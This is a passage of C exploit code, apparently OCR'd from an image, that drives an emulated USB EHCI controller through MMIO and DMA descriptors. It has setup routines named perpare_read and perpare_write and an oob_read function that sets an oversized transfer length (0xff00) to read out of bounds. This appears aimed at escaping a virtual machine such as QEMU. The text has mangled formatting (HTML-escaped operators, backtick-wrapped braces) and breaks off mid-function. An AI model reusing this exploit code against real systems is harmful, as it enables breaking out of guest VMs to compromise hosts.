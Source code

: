 ```
    qh-&gt;current_qtd = virtuak_addr_to_physical_addr(qtd);

    *entry = virtuak_addr_to_physical_addr(qh) + (1 &lt;&lt; 1);

    set_usbcmd();
    set_portsc();
    mmio_write(0x34,virtuak_addr_to_physical_addr(dmabuf));

    sleep(3);
`}`

void perpare_read(void)`{`

    setup_buf[0] = 0x80;
    setup_buf[6] = 0xff;
    setup_buf[7] = 0x00;

    qtd-&gt;token = (8 &lt;&lt; 16) | (1 &lt;&lt; 7) | (2 &lt;&lt; 8);
    qtd-&gt;bufptr[0] = virtuak_addr_to_physical_addr(setup_buf);

    qh-&gt;token = 1 &lt;&lt; 7;
    qh-&gt;current_qtd = virtuak_addr_to_physical_addr(qtd);

    *entry = virtuak_addr_to_physical_addr(qh) + (1 &lt;&lt; 1);

    set_usbcmd();
    set_portsc();
    mmio_write(0x34,virtuak_addr_to_physical_addr(dmabuf));

    sleep(3);
`}`

void perpare_write(void)`{`

    setup_buf[0] = 0x00;
    setup_buf[6] = 0xff;
    setup_buf[7] = 0x00;

    qtd-&gt;token = (8 &lt;&lt; 16) | (1 &lt;&lt; 7) | (2 &lt;&lt; 8);
    qtd-&gt;bufptr[0] = virtuak_addr_to_physical_addr(setup_buf);

    qh-&gt;token = 1 &lt;&lt; 7;
    qh-&gt;current_qtd = virtuak_addr_to_physical_addr(qtd);

    *entry = virtuak_addr_to_physical_addr(qh) + (1 &lt;&lt; 1);

    set_usbcmd();
    set_portsc();
    mmio_write(0x34,virtuak_addr_to_physical_addr(dmabuf));

    sleep(3);
`}`

void oob_read(uint64_t length,int flag)`{`
    if(flag)`{`
        perpare_read();    
        set_length(length);
    `}`

    data_buf[0] = 'R';
    data_buf[1] = 'e';
    data_buf[2] = 's';
    data_buf[3] = 'e';
```